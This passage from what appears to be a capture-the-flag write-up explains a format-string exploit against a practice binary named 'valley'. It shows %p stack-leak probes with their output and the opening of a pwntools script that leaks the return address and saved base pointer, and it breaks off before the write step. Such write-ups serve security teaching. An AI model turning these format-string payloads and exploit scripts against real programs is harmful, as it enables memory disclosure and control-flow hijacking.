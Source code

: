 To bring some of this together and demonstrate how the 8'th parameter value was selected, using the structure of the format string described above, and stated padding, I could replicate this with known token values. Where `A` represented the first three sections of the format string and `B` the 8-bytes of the target write address. Adding a heap of `%p.` to leak stack contents again, we should be able to locate where our target address ends up (the `0x4242424242424242` value):

    $ ./valley 
    Welcome to the Echo Valley, Try Shouting: 
    AAAAAAAAAAAAAAAABBBBBBBB%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
    You heard in the distance: AAAAAAAAAAAAAAAABBBBBBBB0x569199d970c1.(nil).0x7f8e4cc16a00.(nil).0x56919eafd6b0.0x4141414141414141.0x4141414141414141.0x4242424242424242.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa2e70252e70252e.

`BBBBBBBB` or (0x4242424242424242) can be seen in the 8'th parameter.

## Solution ##

The approach detailed above was implemented via a [pwntools](https://docs.pwntools.com/en/stable/) script to obtain the final solution.

    #!/usr/bin/env python3

    from pwn import *

    target_elf = ELF("./valley")

    # command line support for local, remote and gdb modes
    if len(sys.argv) > 1:
      if "remote" in sys.argv:
        if len(sys.argv) > 3:
          target_proc = remote(sys.argv[2], sys.argv[3])
        else:
          print('usage: ./pwn-game.py remote <server> <port>')
          exit(1)
      elif "gdb" in sys.argv:
        target_proc = target_elf.process()
        gdb.attach(target_proc)
    else:
      target_proc = target_elf.process()

    # format-string infoleak to dump the return address to main()
    target_proc.recvuntil(b'Try Shouting:')
    target_proc.sendline(b'%21$p')
    target_proc.recvline() # newline
    ret_to_main_leak_line = target_proc.recvline();
    ret_to_main_hex_str = re.search("0x[0-9a-f]+", ret_to_main_leak_line.decode("utf-8"))
    ret_to_main_address = int(ret_to_main_hex_str.group(), 16)
    print('Return to main() address: ' + str(hex(ret_to_main_address)))

    # format-string based infoleak to dump the saved $rbp (main()'s stack frame)
    target_proc.sendline(b'%20$p')
    rbp_of_main_leak = target_proc.recvline();
    rbp_of_main_hex_str = re.search("0x[0-9a-f]+", rbp_of_main_leak.decode("utf-8"))
    rbp_of_main_address = int(rbp_of_main_hex_str.group(), 16)
    print('Saved $rbp (stack frame): ' + str(hex(rbp_of_main_address)))
